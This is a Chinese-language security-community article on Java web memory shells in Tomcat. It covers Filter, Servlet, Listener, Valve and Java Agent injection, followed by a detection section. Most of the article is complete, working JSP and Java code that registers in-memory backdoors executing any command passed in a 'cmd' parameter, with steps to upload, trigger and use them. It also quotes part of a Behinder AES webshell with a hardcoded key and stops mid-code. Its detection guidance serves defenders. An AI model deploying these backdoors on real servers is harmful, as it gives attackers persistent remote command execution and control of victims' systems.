# Java Web内存马深入分析：从注入原理到检测查杀-先知社区

> **来源**: https://xz.aliyun.com/news/16168  
> **文章ID**: 16168

---

# Java Web内存马深入分析：从注入原理到检测查杀

# 传统型内存马利用Java web Servlet API接口通过反射动态注册内存马,基于 Web 应用层面的技术.



## 1.filter类型的内存马

### 1.1filter基础

Filter（过滤器）是一个强大的组件，用于在请求到达Servlet之前或响应返回客户端之前对请求和响应进行预处理。Filter可以实现用户鉴权、日志记录、数据压缩、编码转换等功能。

Filter的定义位于web.xml中：





* init(FilterConfig config): Filter初始化时调用一般位于tomcat服务器开始部署的时候。
* doFilter(ServletRequest request, ServletResponse response, FilterChain chain): 核心方法，用于处理请求并执行过滤逻辑。内存马的核心代码部分在这里执行。
* destroy(): Filter销毁时调用，释放资源。

### 1.2Filter内存马原理

Filter内存马的核心思想是利用Java的反射机制，在运行时动态注册一个恶意的Filter，从而拦截并处理所有符合URL模式的请求接收处理参数对应的值进行命令执行，并放行不符合条件的请求，实现对目标系统的控制。

### 1.3Filter内存马注入流程与实现



以jsp文件为例：

```
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
  // 注入流程: ServletContext -> ApplicationContext -> StandardContext -> filterConfigs -> 注册 Filter

  final String name = "filter"; // Filter 的名称

  // 1. 获取 ServletContext
  ServletContext servletContext = request.getServletContext();

  // 2. 通过反射获取 ApplicationContext
  // 反射获取 ServletContext 中的 private 字段 "context" (其类型为 ApplicationContext)
  Field appctx = servletContext.getClass().getDeclaredField("context");
  appctx.setAccessible(true); // 设置字段可访问
  ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext); // 获取字段值

  // 3. 通过反射获取 StandardContext
  // 反射获取 ApplicationContext 中的 private 字段 "context" (其类型为 StandardContext)
  Field stdctx = applicationContext.getClass().getDeclaredField("context");
  stdctx.setAccessible(true); // 设置字段可访问
  StandardContext standardContext = (StandardContext) stdctx.get(applicationContext); // 获取字段值

  // 4. 通过反射获取 filterConfigs (存储已注册 Filter 的 Map)
  // 反射获取 StandardContext 中的 private 字段 "filterConfigs"
  Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
  Configs.setAccessible(true); // 设置字段可访问
  Map filterConfigs = (Map) Configs.get(standardContext); // 获取字段值

  // 5. 检查是否已存在同名 Filter
  if (filterConfigs.get(name) == null) {
    // 6. 创建恶意的 Filter 实例
    Filter filter = new Filter() {
      @Override
      public void init(FilterConfig filterConfig) throws ServletException {
        // Filter 初始化方法 (此处为空)
      }

      @Override
      public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        // Filter 的核心处理方法
        HttpServletRequest lrequest = (HttpServletRequest) servletRequest;
        HttpServletResponse lresponse = (HttpServletResponse) servletResponse;

        // 如果请求参数中包含 "cmd"，则执行命令
        if (lrequest.getParameter("cmd") != null) {
          Process process = Runtime.getRuntime().exec(lrequest.getParameter("cmd")); // 执行系统命令
          // 读取命令执行结果
          java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                  new java.io.InputStreamReader(process.getInputStream()));
          StringBuilder stringBuilder = new StringBuilder();
          String line;
          while ((line = bufferedReader.readLine()) != null) {
            stringBuilder.append(line + '\n');
          }
          // 将命令执行结果写入响应
          lresponse.getOutputStream().write(stringBuilder.toString().getBytes());
          lresponse.getOutputStream().flush();
          lresponse.getOutputStream().close();
          return; // 阻止请求继续传递
        }
        filterChain.doFilter(servletRequest, servletResponse); // 放行不符合条件的请求
      }

      @Override
      public void destroy() {
        // Filter 销毁方法
      }
    };

    // 7. 创建 FilterDef (Filter 定义)
    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filter); // 设置 Filter 实例
    filterDef.setFilterName(name); // 设置 Filter 名称
    filterDef.setFilterClass(filter.getClass().getName()); // 设置 Filter 类名
    standardContext.addFilterDef(filterDef); // 将 FilterDef 添加到 StandardContext

    // 8. 创建 FilterMap (Filter 映射)
    FilterMap filterMap = new FilterMap();
    filterMap.addURLPattern("/filter"); // 设置 Filter 映射的 URL 模式
    filterMap.setFilterName(name); // 设置 Filter 名称
    filterMap.setDispatcher(DispatcherType.REQUEST.name()); // 设置触发类型为 REQUEST
    standardContext.addFilterMapBefore(filterMap); // 将 FilterMap 添加到 StandardContext (添加到其他 FilterMap 之前)

    // 9. 创建 ApplicationFilterConfig (Filter 配置)
    // 反射获取 ApplicationFilterConfig 的构造方法 (参数为 Context 和 FilterDef)
    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
    constructor.setAccessible(true); // 设置构造方法可访问
    // 通过反射创建 ApplicationFilterConfig 实例
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

    // 10. 将 FilterConfig 添加到 filterConfigs 中，完成 Filter 注册
    filterConfigs.put(name, filterConfig);
  }
%>

```

上传该jsp文件到webapp目录然后访问jsp文件触发代码，内存马注入成功之后就可以通过路由/filter?cmd执行命令。



主要的一些关键步骤：

1. **首先获取ServletContext:** 通过当前请求对象（request）或其他方式获取ServletContext，request对象的获取可以在jsp文件和filter,servlet,listen。ServletContext是Web应用，ServletContext 对象代表整个 Web 应用本身，提供访问应用资源、配置信息、服务器信息、管理全局属性、日志记录、请求转发以及**动态注册组件（Servlet、Filter、Listener）等核心功能**，是 Web 应用开发的关键对象，也是内存马注入的目标。
2. **然后通过反射获取StandardContext:** 通过反射获取ServletContext中的context字段，该字段类型为ApplicationContext。再通过反射获取ApplicationContext中的context字段，该字段类型为StandardContext，StandardContext是Tomcat中管理Web应用的核心组件。
3. **最后动态注册Filter:**
   * 通过反射获取StandardContext中的filterConfigs字段，该字段是一个Map，存储了所有已注册的Filter配置。
   * 创建恶意的Filter对象，该对象实现了Filter接口，并在doFilter方法中实现恶意逻辑，例如执行命令、上传文件、反弹Shell等。
   * 创建FilterDef对象，设置Filter的名称、类名等信息。
   * 创建FilterMap对象，设置Filter拦截的URL模式。
   * 通过反射创建ApplicationFilterConfig对象，将StandardContext和FilterDef作为参数传入。
   * 将Filter的名称和ApplicationFilterConfig对象添加到filterConfigs中。

### 

## 2.Servlet类型的内存马

### 2.1 Servlet 基础

**Servlet** 是 Java Web 开发中的核心组件，它是一个运行在 Web 服务器端的 Java 程序，用于处理客户端请求并生成动态响应。Servlet 通常用于构建动态网站、Web 应用程序和 Web 服务。



Servlet 接口定义了以下三个主要的方法：

* **init(ServletConfig config):** Servlet 初始化时调用，正常情况下用于读取配置信息和初始化资源。每个 Servlet 实例只会被初始化一次。
* **service(ServletRequest req, ServletResponse res):** Servlet 处理请求的核心方法。对于 HTTP 请求，通常会调用 HttpServlet 的 doGet、doPost 等方法。
* **destroy():** Servlet 销毁时调用，用于释放资源。每个 Servlet 实例只会被销毁一次。

**servlet**的配置


```
<servlet>
    <servlet-name>evilServlet</servlet-name>
    <servlet-class>com.example.filtershell.EvilServlet</servlet-class>
    <!-- 设置启动顺序 -->
    <load-on-startup>1</load-on-startup>
</servlet>
<servlet-mapping>
    <servlet-name>evilServlet</servlet-name>
    <url-pattern>/evil</url-pattern>
</servlet-mapping>

```

### 2.2 Servlet 内存马原理

Servlet 型内存马与 Filter 型内存马类似，都是利用**Java 的反射机制**和 **Tomcat 的 API** 在运行时**动态注册**恶意的组件。Servlet 内存马通过动态注册一个恶意的 Servlet 来接管特定 URL 的请求，从而实现对目标系统的控制。

### 2.3 Servlet 内存马的注入流程和实现



**JSP 代码实现 (servlet.jsp):**

```
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.io.*" %>
<%@ page import="javax.servlet.*" %>
<%@ page import="javax.servlet.http.*" %>

<%
  // 定义恶意Servlet类
  class EvilServlet extends HttpServlet {
    @Override
    public void doGet(HttpServletRequest request, HttpServletResponse response)
            throws ServletException, IOException {
      String cmd = request.getParameter("cmd");
      if (cmd != null) {
        try {
          Process process = Runtime.getRuntime().exec(cmd);
          BufferedReader br = new BufferedReader(new InputStreamReader(process.getInputStream()));
          StringBuilder sb = new StringBuilder();
          String line;
          while ((line = br.readLine()) != null) {
            sb.append(line).append("\n");
          }
          response.getWriter().write(sb.toString());
        } catch (Exception e) {
          response.getWriter().write(e.toString());
        }
      }
    }

    @Override
    public void doPost(HttpServletRequest request, HttpServletResponse response)
            throws ServletException, IOException {
      doGet(request, response);
    }
  }

  // 注入流程
  final String servletName = "evilServlet";
  final String urlPattern = "/evil";

  // 1. 获取 StandardContext
  ServletContext servletContext = request.getServletContext();
  Field appContextField = servletContext.getClass().getDeclaredField("context");
  appContextField.setAccessible(true);
  ApplicationContext applicationContext = (ApplicationContext) appContextField.get(servletContext);
  Field standardContextField = applicationContext.getClass().getDeclaredField("context");
  standardContextField.setAccessible(true);
  StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

  // 2. 检查 Servlet 是否已存在,防止重复注入
  if (standardContext.findChild(servletName) == null) {
    // 3. 创建 Wrapper
    Wrapper wrapper = standardContext.createWrapper();
    wrapper.setName(servletName);
    wrapper.setServletClass(EvilServlet.class.getName());
    wrapper.setServlet(new EvilServlet());
    wrapper.setLoadOnStartup(1);

    // 4. 添加 Servlet 配置
    standardContext.addChild(wrapper);
    standardContext.addServletMappingDecoded(urlPattern, servletName);

    out.println("Servlet 注入成功!");
    out.println("访问路径: " + urlPattern);
    out.println("支持参数: cmd");
  } else {
    out.println("Servlet 已存在!");
  }
%>

```

上传该jsp文件到webapp目录然后访问jsp文件触发代码，内存马注入成功之后就可以通过路由/evil?cmd执行命令。



**主要的一些关键步骤：**

1. **恶意 EvilServlet 类:** 继承自 HttpServlet，重写了 doGet 和 doPost 方法。如果请求参数中包含 cmd，则将其作为系统命令执行，并将结果返回给客户端。
2. **注入流程:**
   * **获取 StandardContext:** 与 Filter 型内存马类似，通过 ServletContext 和反射机制获取 StandardContext。
   * **检查 Servlet 是否已存在:** 通过 standardContext.findChild(servletName) 检查是否已存在同名的 Servlet，避免重复注入。
   * **创建 Wrapper:** 使用 standardContext.createWrapper() 创建一个 Wrapper 对象。
     + wrapper.setName(servletName): 设置 Servlet 名称。
     + wrapper.setServletClass(EvilServlet.class.getName()): 设置 Servlet 类名。
     + wrapper.setServlet(new EvilServlet()): 设置 Servlet 实例,也可以选择不进行设置。
     + wrapper.setLoadOnStartup(1): 设置 Servlet 的启动优先级，1 表示在 Web 应用启动时加载该 Servlet。
   * **添加 Servlet 配置:**
     + standardContext.addChild(wrapper): 将 Wrapper 添加到 StandardContext 中。
     + standardContext.addServletMappingDecoded(urlPattern, servletName): 添加 URL 映射，将 /evil 映射到 evilServlet。

## 3.listen类型的内存马

### 3.1 Listener 基础

**Listener (监听器)** 是 Java Servlet 规范中定义的一种特殊组件，用于监听 Web 应用程序中的特定事件，并在事件发生时执行相应的操作。监听器可以用来监听多种类型的事件，例如：

* **应用程序生命周期事件：** 与 ServletContext（应用程序）的初始化和销毁相关的事件。
* **会话生命周期事件：** 与用户会话的创建、修改和失效相关的事件。
* **请求生命周期事件：** 与 HTTP 请求的处理相关的事件。
* **属性变更：** 与 ServletContext、会话或请求对象中属性的添加、删除或替换相关的事件。



* **requestInitialized(ServletRequestEvent sre)：**此方法在每个 HTTP 请求开始时触发,如果 cmd 参数存在，它将 cmd 的值作为系统命令执行（使用 Runtime.getRuntime().exec()）。
* **requestDestroyed(ServletRequestEvent sre)：**此方法在每个 HTTP 请求结束时调用。

**Listener 的配置:**

通常，Listener 在 web.xml 部署描述符中进行配置，例如：

```
<listener>
  <listener-class>com.example.MyServletContextListener</listener-class>
</listener>

```



与过滤器（Filter）和 Servlet 不同，Listener 不需要定义访问路由。服务器部署完成后，定义的类会自动被触发。

### 3.2 Listener 型内存马原理

基于 Listener 的内存马利用 **Tomcat 的 API** 和 **Java 的反射机制**，在运行时动态注册一个恶意的 Listener。当 Web 应用程序的生命周期事件或属性变更事件发生时，这个恶意的 Listener 就会执行预先设定的恶意代码。

**与 Filter 和 Servlet 型内存马的区别：**

主要区别在于**触发方式**。Filter 和 Servlet 型内存马通常需要通过特定的 URL 请求来触发，而 Listener 型内存马则是在特定事件发生时自动触发。例如，Filter 和 Servlet 的示例需要访问 /filter 或 /evil 才能触发内存马，而 Listener 只需要访问 /anything 即可触发。

### 3.3 Listener 型内存马的注入流程和实现

**注入流程：**



**JSP 代码实现 (listener.jsp):**

```
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="javax.servlet.*" %>
<%@ page import="java.io.*" %>
<%@ page import="javax.servlet.http.HttpServletRequest" %>
<%@ page import="javax.servlet.http.HttpServletResponse" %>

<%
    // 定义恶意Listener
    class EvilListener implements ServletRequestListener {
        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            // 每次请求初始化的时候处理
            System.out.println("start of listen");
            HttpServletRequest request = (HttpServletRequest) sre.getServletRequest();
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                try {
                    Process process = Runtime.getRuntime().exec(cmd);
                    BufferedReader br = new BufferedReader(
                            new InputStreamReader(process.getInputStream()));
                    StringBuilder sb = new StringBuilder();
                    String line;
                    while ((line = br.readLine()) != null) {
                        sb.append(line).append("\n");
                    }
                    HttpServletResponse response =
                            (HttpServletResponse) request.getAttribute("javax.servlet.response");
                    response.getWriter().write(sb.toString());
                } catch (Exception e) {
                    e.printStackTrace();
                }
            }
        }

        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
            // 每次请求结束时的处理
            System.out.println("ends of listen");
        }
    }

    // 注入流程
    // 1. 获取StandardContext
    ServletContext servletContext = request.getSession().getServletContext();
    Field appContextField = servletContext.getClass().getDeclaredField("context");
    appContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appContextField.get(servletContext);
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

    // 2. 创建并添加Listener
    ServletRequestListener evilListener = new EvilListener();
    standardContext.addApplicationEventListener(evilListener);

    out.println("Listener注入成功!");
%>

```

上传listener.jsp访问listener.jsp触发代码，之后就可访问任意路由传参cmd执行命令。



**注入过程中的关键步骤：**

1. **获取 StandardContext：**
   * 从当前请求中获取 ServletContext 对象。
   * 使用反射访问 ServletContext 中的 context 字段（该字段的类型为 ApplicationContext）。
   * 再次使用反射访问 ApplicationContext 中的 context 字段（此时该字段的类型为 StandardContext）。StandardContext 是 Tomcat 内部对 Web 应用程序的表示。
2. **创建并注册恶意 Listener：**
   * 创建 EvilListener 类的实例。
   * 使用 StandardContext 对象的 addApplicationEventListener() 方法注册恶意 Listener。这会将 Listener 添加到 Web 应用程序的事件处理流程中。

## **Tomcat 特有 Valve 内存马**

## 4.value类型的内存马

## 4. Valve 型内存马

### 4.1 Valve 基础

**Valve (阀门)** 是 Tomcat 特有的一种组件，是 Tomcat 的 Pipeline-Valve 架构中的组件，类似 Filter，但工作在更底层，存在于 Tomcat 的 Pipeline-Valve 架构中。Valve 可以拦截和处理进入 Tomcat 容器的 HTTP 请求，并在请求处理完成后对响应进行处理。

**Pipeline-Valve 架构：**

Tomcat 的请求处理流程是通过 Pipeline-Valve 架构实现的。每个容器（Engine, Host, Context, Wrapper）都有自己的 Pipeline，Pipeline 中包含一系列 Valve，维护着先进先出的队列。

* **First Valve (首阀门):** 管道中的第一个 Valve，通常用于执行一些全局性的预处理操作。
* **Intermediate Valve (中间阀门):** 可以有多个，按顺序执行，用于实现各种业务逻辑。
* **Basic Valve (基础阀门):** 管道的最后一个 Valve，每个 Pipeline 必须有且只有一个。它负责调用 Servlet 或下一个容器的 Pipeline。

**Valve 的关键方法:**

* **invoke(Request request, Response response):** 此方法在每个 HTTP 请求到达 Valve 时触发。Valve 可以在此方法中对请求进行处理，并决定是否将请求传递给下一个 Valve 或 Servlet。如果 cmd 参数存在，它可以将 cmd 的值作为系统命令执行 (使用 Runtime.getRuntime().exec())。getNext().invoke(request, response) 将请求传递到下一个 Valve。



### 4.2 Valve 型内存马原理

基于 Valve 的内存马利用 **Tomcat 的 API** 和 **Java 的反射机制**，在运行时动态注册一个恶意的 Valve。当 HTTP 请求到达 Tomcat 容器时，这个恶意的 Valve 就会拦截请求并执行预先设定的恶意代码。

**与 Listener、Filter 和 Servlet 型内存马的区别：**

主要区别在于**注入位置和触发时机**。

* **Listener 型内存马** 在特定事件发生时触发，例如应用程序启动或会话创建。
* **Filter 型内存马** 在请求到达 Servlet 之前触发，需要配置 URL 映射。
* **Servlet 型内存马** 本身就是一个 Servlet，需要配置 URL 映射。
* **Valve 型内存马** 工作在 Tomcat 的底层请求处理流程中，不需要配置 URL 映射，可以在请求到达 Servlet 之前或之后触发，甚至可以拦截所有请求, 比 filter 更早拦截。

### 4.3 Valve 型内存马的注入流程和实现

**注入流程和servlet相似：**



**JSP 代码实现 (valve.jsp):**

```
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.*" %>
<%@ page import="java.util.List" %>
<%@ page import="org.apache.catalina.Pipeline" %>

<%!
    class EvilValve extends ValveBase {
        @Override
        public void invoke(Request request, Response response) throws IOException, ServletException {
            String cmd = request.getParameter("cmd");
            if (cmd != null && !cmd.isEmpty()) {
                try {
                    Process p = Runtime.getRuntime().exec(cmd);
                    BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
                    StringBuilder sb = new StringBuilder();
                    String line;
                    while ((line = br.readLine()) != null) {
                        sb.append(line).append("\n");
                    }
                    response.getWriter().write(sb.toString());
                    response.setStatus(HttpServletResponse.SC_OK);
                    response.getWriter().flush();
                    response.getWriter().close();
                    return;
                } catch (Exception e) {
                    e.printStackTrace();
                }
            }
            getNext().invoke(request, response);
        }

    }

%>
<%
    try {
        // 1. 反射获取 StandardContext
        Field requestField = request.getClass().getDeclaredField("request");
        requestField.setAccessible(true);
        Request req = (Request) requestField.get(request);
        StandardContext standardContext = (StandardContext) req.getContext();

        // 2. 获取 Pipeline
        Pipeline pipeline = standardContext.getPipeline();

        // 3. 创建并添加 Valve
        pipeline.addValve(new EvilValve());

        out.println("Valve 注入成功!");
    } catch (Exception e) {
        e.printStackTrace(response.getWriter());

    }
%>

```

上传 valve.jsp 访问 valve.jsp 触发代码，之后就可访问任意路由传参 cmd 执行命令。

**注入过程中的关键步骤：**

1. **获取 StandardContext：**
   * 从当前请求对象 request 中通过反射获取 request 属性，它的类型是 org.apache.catalina.connector.Request。
   * 通过 req.getContext() 获取 StandardContext 对象。
2. **获取 Pipeline：**
   * 通过 standardContext.getPipeline() 获取 Pipeline 对象。
3. **创建并注册恶意 Valve：**
   * 创建 EvilValve 类的实例。
   * 使用 Pipeline 对象的 addValve() 方法注册恶意 Valve。这会将 Valve 添加到 Web 应用程序的 Valve 处理流程中。

| 内存马类型 | 核心类/接口 | 注入位置 | 触发方式 | 特点 |
| --- | --- | --- | --- | --- |
| Filter 类型 | javax.servlet.Filter | StandardContext 的 filterConfigs Map | 请求到达时，根据 URL 模式匹配触发 | 基于 Web 应用层面的技术，配置简单，可以针对特定 URL 进行过滤 |
| Servlet 类型 | javax.servlet.Servlet | StandardContext 的 children Map | 通过配置的 URL 路径触发 | 基于 Web 应用层面的技术，类似于 Filter，但直接处理请求和响应 |
| Listener 类型 | javax.servlet.ServletRequestListener、javax.servlet.ServletContextListener 等 | StandardContext 的 applicationEventListeners 列表 | Web 应用生命周期事件或请求事件触发，无需 URL 映射 | 基于 Web 应用层面的技术，可以监听多种事件，触发范围更广 |
| Valve 类型 | org.apache.catalina.Valve | StandardContext 的 Pipeline 的 Valve 链 | Tomcat 底层请求处理流程中触发，无需 URL 映射，可以拦截所有请求 | Tomcat 特有，工作在更底层，比 Filter 更早拦截请求，可以实现更灵活的控制。 |

## 5.java agent技术动态注入内存马

### 5.1 Java Agent 基础

**Java Agent** 是一种能够在不修改应用程序源代码的情况下，动态修改 Java 应用程序行为的技术。它基于 java.lang.instrument 包实现，允许开发者在类加载时或运行时修改类的字节码，从而实现 AOP（面向切面编程）、性能监控、代码覆盖率分析、以及内存马注入等功能。

Java Agent 有两种加载方式：

* **premain:** 在 JVM 启动时通过 -javaagent 参数指定，在 main 方法执行之前加载。
* **agentmain:** 在 JVM 启动后，通过 Attach API 动态连接到目标 JVM 进行加载。

**核心概念:**

* **Instrumentation:** java.lang.instrument.Instrumentation 接口提供了操作类定义的方法，例如 redefineClasses、addTransformer 等。
* **ClassFileTransformer:** java.lang.instrument.ClassFileTransformer 接口定义了 transform 方法，用于转换类文件字节码。Agent 通过实现该接口来修改类的字节码。
* **MANIFEST.MF:** Agent JAR 包的清单文件，需要指定 Premain-Class 或 Agent-Class 属性，以告诉 JVM Agent 的入口类。

  其他可选属性包括：Can-Redefine-Classes、Can-Retransform-Classes 等，用于声明 Agent 的能力。

### 5.2 Java Agent 注入内存马原理

Java Agent 注入内存马的核心原理是利用 Instrumentation 和 ClassFileTransformer 接口修改或添加目标 JVM 中已加载的类的字节码，从而动态注册恶意的 Servlet、Filter 等组件，或者修改已有的 Servlet、Filter 的行为。 它不会修改磁盘上的文件，所有的修改都发生在内存中。

**注入方式：**

1. **动态注册:** 创建一个实现 javax.servlet.Servlet 接口的恶意类，并使用 Instrumentation 将其注册到 Web 容器 (例如 Tomcat) 中。 这通常需要利用反射调用 Web 容器内部的 API。
2. **修改已有组件:** 找到已加载的 Servlet 或 Filter 类，修改其字节码，例如在 service 或 doFilter 方法中插入恶意代码。 这需要使用字节码操作库，例如 Javassist、ASM 等。

### 5.3 Java Agent 注入内存马流程 (以 agentmain 方式注入 Servlet 为例)



1. **步骤 1：编写恶意 Servlet (EvilServlet.java)**

   ```
   package com.example;

   import javax.servlet.ServletException;
   import javax.servlet.http.HttpServlet;
   import javax.servlet.http.HttpServletRequest;
   import javax.servlet.http.HttpServletResponse;
   import java.io.IOException;
   import java.io.PrintWriter;

   public class EvilServlet extends HttpServlet {
       @Override
       protected void doGet(HttpServletRequest request, HttpServletResponse response)
               throws ServletException, IOException {
           response.setContentType("text/plain");
           PrintWriter out = response.getWriter();
           out.println("Evil Servlet is Running!");

           String cmd = request.getParameter("cmd");
           if (cmd != null) {
               try {
                   Process process = Runtime.getRuntime().exec(cmd);
                   java.util.Scanner scanner = new java.util.Scanner(process.getInputStream()).useDelimiter("\\A");
                   String output = scanner.hasNext() ? scanner.next() : "";
                   out.println(output);
               } catch (IOException e) {
                   out.println("Error executing command: " + e.getMessage());
               }
           }
       }

       @Override
       protected void doPost(HttpServletRequest request, HttpServletResponse response)
               throws ServletException, IOException {
           doGet(request, response);
       }
   }

   ```

这个 Servlet 接收一个名为 cmd 的 HTTP 请求参数，并在服务器上执行该命令，然后将命令输出返回给客户端。

**步骤 2：编写 Java Agent (Agent.java)**

```
package com.example;

   import java.lang.instrument.*;
   import java.security.ProtectionDomain;
   import javassist.*;

   public class Agent {
       public static void agentmain(String agentArgs, Instrumentation inst) {
           System.out.println("[+] Agent is running...");
           inst.addTransformer(new ServletListenerTransformer(), true);
       }

       static class ServletListenerTransformer implements ClassFileTransformer {
           @Override
           public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined,
                                   ProtectionDomain protectionDomain, byte[] classfileBuffer)
                   throws IllegalClassFormatException {

               if (!"org/apache/catalina/core/ApplicationFilterChain".equals(className)) {
                   return null;
               }

               try {
                   ClassPool cp = ClassPool.getDefault();
                   cp.insertClassPath(new ClassClassPath(this.getClass()));

                   CtClass cc = cp.get("org.apache.catalina.core.ApplicationFilterChain");
                   CtMethod method = cc.getDeclaredMethod("doFilter");

                   String code = "{ " +
                           "javax.servlet.ServletContext context = $1.getServletContext();" +
                           "if (context.getServletRegistration(\"EvilServlet\") == null) {" +
                           "    javax.servlet.ServletRegistration.Dynamic servlet = context.addServlet(\"EvilServlet\", \"com.example.EvilServlet\");" +
                           "    servlet.addMapping(\"/evil\");" +
                           "    System.out.println(\"[+] EvilServlet registered successfully!\");" +
                           "}" +
                           "}";

                   method.insertBefore(code);
                   byte[] byteCode = cc.toBytecode();
                   cc.detach();
                   return byteCode;
               } catch (Exception e) {
                   e.printStackTrace();
               }

               return null;
           }
       }
   }

```

这个 Agent.java 在 org.apache.catalina.core.ApplicationFilterChain 类的 doFilter 方法开始处插入代码，用于动态注册 EvilServlet。

**步骤 3：编写注入程序 (Injector.java)**

```
import com.sun.tools.attach.VirtualMachine;

   public class Injector {
       public static void main(String[] args) throws Exception {
           if (args.length != 2) {
               System.err.println("Usage: java Injector <pid> <agent.jar>");
               return;
           }

           String pid = args[0];
           String agentJar = args[1];

           VirtualMachine vm = VirtualMachine.attach(pid);
           vm.loadAgent(agentJar);
           vm.detach();

           System.out.println("Agent loaded successfully.");
       }
   }

```

这个文件使用 VirtualMachine API 将 Agent Jar 包注入到目标 JVM 中。

**步骤 4：编译和打包**

1. **编译 Injector.java 文件:**

   ```
   /usr/bin/jdk1.8.0_101/bin/javac -cp /usr/bin/jdk1.8.0_101/lib/tools.jar:. Injector.java

   ```
2. **创建 MANIFEST.MF 文件 (在 com/example同级目录下创建 META-INF文件夹，并在其中创建 MANIFEST.MF 文件):**

   ```
   Manifest-Version: 1.0
   Agent-Class: com.example.Agent
   Can-Redefine-Classes: true
   Can-Retransform-Classes: true

   ```
3. **打包 Agent.jar:**

   

   **步骤 5：部署和注入**
4. **获取 Tomcat PID:** 使用 jps 或 ps aux | grep java 命令找到 Tomcat 的进程 ID。
5. **运行 Injector:** 将Injector.class文件复制到和tools.jar同一个目录下。执行以下命令注入 Agent：

   ```
   sudo -u www /usr/bin/jdk1.8.0_101/bin/java -cp /usr/bin/jdk1.8.0_101/lib/tools.jar:. Injector <Tomcat PID> /path/to/agent.jar

   ```

```

```



# 内存马定位和查杀

## 1. 内存马定位

内存马的定位主要从流量特征和代码特征两个方面入手。

### 1.1 流量特征分析

通过分析网络流量，可以识别出潜在的内存马活动。以下是一些常见的可疑流量特征：

* **异常请求路径和状态码**

  + **GET 请求：** 访问不存在的路径，但返回 404 状态码，同时携带可疑参数，例如 /memshell?cmd=calc，其中 /memshell 路由并不存在，但请求却可能被执行。
  + **POST 请求：** 访问正常路径，返回 200 状态码，但请求体中包含恶意命令，且命令被成功执行。
  + **示例：** 攻击者可能会尝试通过访问 /shell, /cmd, /hack, /test 等不存在的路径，并携带参数执行命令。
* **动态变化的数据包大小：** 内存马在执行命令或返回结果时，会导致数据包大小发生动态变化，这是内存马活动的典型特征。
* **特殊的 User-Agent 或 Referer 字段：** 攻击者有时会使用特殊的 User-Agent 或 Referer 字段来标识或控制内存马。
* **异常的响应时间：** 内存马执行命令可能导致响应时间变长或不稳定。

  

### 1.2 代码特征分析

通过分析 Web 应用的 Class 文件、Jar 包以及运行时内存数据，可以发现潜在的内存马代码。以下是一些常见的可疑代码特征：

* **连接密码：** 内存马通常会设置连接密码，用于远程控制和执行命令。例如，代码中可能存在 password, key, token 等字符串，用于身份验证。
* **自定义路由：** 内存马会注册自定义的路由，用于接收攻击者的指令。例如，代码中可能存在 @WebServlet, @RequestMapping 等注解，用于映射 URL 到恶意代码。
* **加解密操作：** 为了隐藏恶意代码和通信内容，内存马通常会使用加解密算法，例如 AES、Base64 等。代码中可能存在 javax.crypto, java.util.Base64 等相关的类和方法。
* **恶意的代码执行：** 内存马的核心功能是执行恶意命令。代码中可能存在 Runtime.getRuntime().exec(), ProcessBuilder 等方法，用于执行系统命令。
* **动态注册组件：** 内存马可能会利用 Java 反射机制动态注册 Filter、Servlet、Listener 等组件，例如 ClassLoader.defineClass(), Class.forName() 等方法。
* **可疑的类名和包名：** 内存马的类名和包名通常会伪装成正常的类，但可能包含一些可疑的关键词，例如 shell, cmd, hack, util 等。

以冰蝎4.0默认aes加密为例

```
<%@page import="java.util.*,java.io.*,javax.crypto.*,javax.crypto.spec.*" %>
<%!
    // 特征：加解密操作，密钥硬编码
    private byte[] Decrypt(byte[] data) throws Exception
    {
        // 特征：连接密钥
        String k="e45e329feb5d925b";
        javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES/ECB/PKCS5Padding");c.init(2,new javax.crypto.spec.SecretKeySpec(k.getBytes(),"AES"));// 特征：AES 加密算法，
        byte[] decodebs;
        Class baseCls ;
                try{
                    // 特征：Base64 解码，兼容 Java 8 及以上版本和旧版本
                    baseCls=Class.forName("java.util.Base64");
                    Object Decoder=baseCls.getMethod("getDecoder", null).invoke(baseCls, null);
                    decodebs=(byte[]) Decoder.getClass().getMethod("decode", new Class[]{byte[].class}).invoke(Decoder, new Object[]{data});
                }
                catch (Throwable e)
                {
                     System.out.println("444444");
                    baseCls = Class.forName("sun.misc.BASE64Decoder");
                    Object Decoder=baseCls.newInstance();
                    decodebs=(byte[]) Decoder.getClass().getMethod("decodeBuffer",new Class[]{String.class}).invoke(Decoder, new Object[]{new String(data)});
